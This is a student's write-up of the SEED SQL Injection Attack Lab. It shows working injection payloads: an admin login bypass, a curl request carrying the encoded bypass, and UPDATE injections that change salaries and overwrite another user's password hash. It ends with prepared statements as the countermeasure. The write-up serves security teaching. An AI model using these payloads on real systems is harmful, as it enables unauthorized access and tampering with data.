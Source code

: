 # SQL Injection Attack Lab

# Fei Guo

lab url: https://seedsecuritylabs.org/Labs_20.04/Files/Web_SQL_Injection/Web_SQL_Injection.pdf

## Task 2: SQL Injection Attack on SELECT Statement

### Task 2.1: SQL Injection Attack from webpage.

If the name field is not sanitized before being concatenated to a SQL query, then we can inject this:

`admin'#`

to construct a SQL query like:

`WHERE name=’admin’#' and Password=’$hashed_pwd’”;`

And everything after '#' will be commented out, making the statement always return an admin record.

### Task 2.2: SQL Injection Attack from command line

Similar to above, we can use curl to do the injection:

`curl 'www.seed-server.com/unsafe_home.php?username=admin%27%23#&Password=12345'`

Note here we need to quote the url, so `admin'#` becomes `admin%27%23`. Also we need to put the entire URL between a pair of single quotes. 

To do the quoting, do this in Python:
```python
In [222]: from urllib import parse
In [223]: parse.quote("admin'#")
Out[223]: 'admin%27%23'
```

### Task 2.3: Append a new SQL statement

We can't succeed in appending a new SQL statement in the name field because `mysqli::query()` API in PHP doesn't allow more than one queries to be executed in one time.

## Task 3: SQL Injection Attack on UPDATE Statement

### Task 3.1: Modify your own salary

With an update statement like this in PHP:

```sql
$sql = "UPDATE credential SET nickname='$input_name', ,email='$input_email',address='$input_address',Password='$hashed_pwd', PhoneNumber='$input_phonenumber' WHERE ID=$id;";
```
We can input this in the $input_name field:

`', salary='500000`

to get something like this and change the "hidden" (not intended to be modified) field:

```sql
$sql = "UPDATE credential SET nickname='alice', salary='500000',email='$input_email',address='$input_address',Password='$hashed_pwd', PhoneNumber='$input_phonenumber' WHERE ID=$id;";
```

### Task 3.2: Modify Other People’s Salaries

Similarly, we can change other people's salary by inputing this in the name field:

`', salary=1 WHERE Name='Boby';#`

### Task 3.3: Modify other people’ password

Since the password is sha1-hashed before being stored, we need to computer the sha1 value of the password before updating so we know the original one.

For example, 
```bash
➜  NetRead git:(main) echo deadbeef | shasum
b39e528efc3afe2def4bbc39de17f2b82cd8bd0d  -
```

Then to modify other people's password, we just input this in the name field:

`', Password='b39e528efc3afe2def4bbc39de17f2b82cd8bd0d' WHERE Name=’Boby’;#`

## Task 4: Countermeasure — Prepared Statement

We can use mysqli's api to first do `prepare` and send mysql the code part, and then do `bind_params` to send the data part to mysql. After that, we can execute the query and fetch the result. Here is the given demo:
```
$stmt = $conn->prepare("SELECT name, local, gender FROM USER_TABLE WHERE id = ? and password = ? ");
// Bind parameters to the query
$stmt->bind_param("is", $id, $pwd);
$stmt->execute();
$stmt->bind_result($bind_name, $bind_local, $bind_gender);
$stmt->fetch();
```







